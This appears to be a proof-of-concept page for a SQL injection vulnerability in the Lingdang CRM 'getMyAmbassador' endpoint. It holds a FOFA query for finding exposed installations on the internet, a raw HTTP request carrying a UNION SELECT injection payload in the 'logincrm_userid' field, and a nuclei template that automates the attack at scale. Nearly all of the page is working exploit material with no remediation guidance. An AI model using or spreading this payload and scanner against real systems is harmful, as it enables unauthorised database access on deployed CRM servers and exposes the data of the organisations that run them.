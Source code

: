 # fofa

```plain
body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")
```

# POC

```http
POST /crm/WeiXinApp/marketing/index.php?module=Ambassador&action=getMyAmbassador HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded
Connection: close

logincrm_userid=-1 union select user(),2,3#
```

# nuclei

```yaml
id: lingdang-crm-getMyAmbassador-sqli

info:
  name: lingdang crm getMyAmbassador SQL injection
  author: zxf
  severity: high
  metadata:
    fofasearch: body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")

http:
  - raw:
      - |
        POST /crm/WeiXinApp/marketing/index.php?module=Ambassador&action=getMyAmbassador HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Content-Type: application/x-www-form-urlencoded
        Connection: close

        logincrm_userid=-1 union select user(),2,3#
        
    matchers:
      - type: dsl
        dsl:
          - status_code==200 && contains_all(body,"@localhost")
```

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1739271497383-bc575fc2-58ae-4892-be44-d13ee8f81eba.png)

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1739271533587-ba085017-8c37-409c-b9c3-111395eec2c4.png)